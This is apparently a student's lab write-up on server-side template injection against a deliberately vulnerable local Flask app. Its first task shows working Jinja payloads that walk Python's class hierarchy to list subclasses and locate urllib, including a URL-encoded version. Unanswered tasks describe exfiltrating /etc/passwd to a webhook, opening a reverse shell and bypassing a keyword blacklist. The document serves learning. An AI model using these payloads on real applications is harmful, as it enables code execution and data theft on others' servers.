 Q: Give unique ssti payloads for the given cases while following these conditions:
payloads must be as unique as possible ie if one starts with class.base.subclasses none others should start with it
OR you can use some other variant of the same payload like attr getattr instead of dot notation but again with these there should be at max two payloads looking similar

include the outputs of each part of payload eg for class.base.subclasses do class, then class.base and so on
by output I DONT MEAN paste the o/p, well do paste after slicing [:100] but you have to explain what the o/p actually is again for each step and also mention what more you could do with it other than what the payload you probably ripped off of somewhere is doing - for this you have to spend at least 30 minutes on the first 2 or 3 payloads you start researching

screenshots once in 5 paras

```
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route("/")
def home():
    if request.args.get("c"):
        return render_template_string(request.args.get("c"))
    else:
        return "Hello, send someting inside the param 'c'!"


if __name__ == "__main__":
    app.run()
```

- return the index of urllib in subclasses()
```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here
```http://127.0.0.1:5000/?c={{().__class__.__base__}}``` : ```<class 'object'>```
```http://127.0.0.1:5000/?c={{().__class__.__base__.__subclasses__()}}``` : ```[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>``` :
returns all the subclasses for that object<br>
Now to get the index at which the urllib is present, we can copy the list and iterate through it or to directly run it in the browser we can use a for loop:
```
{% set subclasses = ().__class__.__base__.__subclasses__() %}
{% for i in range(subclasses|length) %}
  {% if 'urllib' in subclasses[i].__module__ %}
    {{ i }}
  {% endif %}
{% endfor %}
```
If this is our payload, then the for loop iterates through the subclasses list and prints the index wherever it finds urllib mentioned
url encoding the block we get the payload as: ```%7B%25%20set%20subclasses%20%3D%20().__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20for%20i%20in%20range(subclasses%7Clength)%20%25%7D%0A%20%20%7B%25%20if%20'urllib'%20in%20subclasses%5Bi%5D.__module__%20%25%7D%0A%20%20%20%20%7B%7B%20i%20%7D%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D```
![image](https://github.com/poorvi1910/Web/assets/146640913/433ab890-0a54-4476-a97c-725822933382)

- get name of current python flask script


- get all the current envvars


- read a local file


- run a command


- send the contents of etc pass to  awebhook


- create a reverse shell, save your work and run the command yes on the rev shell


- re-write everything above to work against this blacklist = [    "import",    "open",    "module",    "write",    "load",    "read",    "eval",    "exec",    "system",    "os",    "_",    #",    ',    "]
